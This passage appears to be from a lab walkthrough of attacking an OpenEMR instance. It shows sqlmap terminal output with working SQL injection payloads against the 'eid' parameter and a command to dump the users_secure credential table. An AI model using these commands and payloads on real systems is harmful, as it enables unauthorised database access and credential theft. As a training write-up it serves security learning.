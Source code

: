 ~~~term

[13:07:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.118.132'

[*] ending @ 13:07:58 /2021-04-23/
~~~

> Here we can see the users_secure table, which from the report we know to look into.

~~~TERM
┌──(user㉿kali)-[~]
└─$ sqlmap -r openemr.req --threads=10 -D openemr -T users_secure --dump
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[.]_____ ___ ___  {1.5.4#stable}                                                                                                                                                                                                    
|_ -| . [)]     | .'| . |                                                                                                                                                                                                                   
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   http://sqlmap.org                                                                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:10:32 /2021-04-23/

[13:10:32] [INFO] parsing HTTP request from 'openemr.req'
[13:10:32] [INFO] resuming back-end DBMS 'mysql' 
[13:10:32] [INFO] testing connection to the target URL
[13:10:32] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (6722=6722) THEN 1 ELSE (SELECT 8202 UNION SELECT 8377) END))

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: eid=1 AND GTID_SUBSET(CONCAT(0x71626a6a71,(SELECT (ELT(4791=4791,1))),0x7162627171),4791)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 4310 FROM (SELECT(SLEEP(5)))nHfp)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a6a71,0x685273536564596f59706b79575448676665704a484f696d6c52744b6b6a46437a68687751595054,0x7162627171),NULL-- -
---
[13:10:32] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP 7.2.34
~~~